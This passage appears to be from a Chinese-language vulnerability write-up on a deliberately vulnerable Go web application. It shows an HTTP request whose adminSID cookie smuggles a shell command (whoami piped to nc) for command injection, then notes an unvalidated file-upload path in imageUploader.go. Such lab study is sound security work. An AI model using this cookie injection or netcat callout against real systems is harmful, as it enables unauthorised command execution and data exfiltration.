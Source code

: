 ```http
GET /adminusers HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,en-GB;q=0.6
Cache-Control: max-age=0
Connection: keep-alive
Cookie: UserName="Amuro Ray"; SessionID=UlgtNzgtMkBFRlNGLmNvbQ==; UserID=1; adminSID=abcs'|whoami|nc 127.0.0.1 1234|echo '
DNT: 1
Host: localhost:9090
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"


```

![image-20240923152011511](img/GoVul/image-20240923152011511.png)

## 文件上传

> [GitHub - Hardw01f/Vulnerability-goapp: Web application build Golang with Vulnerability](https://github.com/Hardw01f/Vulnerability-goapp)

`pkg/image/imageUploader.go` ，这里保存文件，路径是拼接的，且没有检验

![image-20240923160617852](img/GoVul/image-20240923160617852.png)
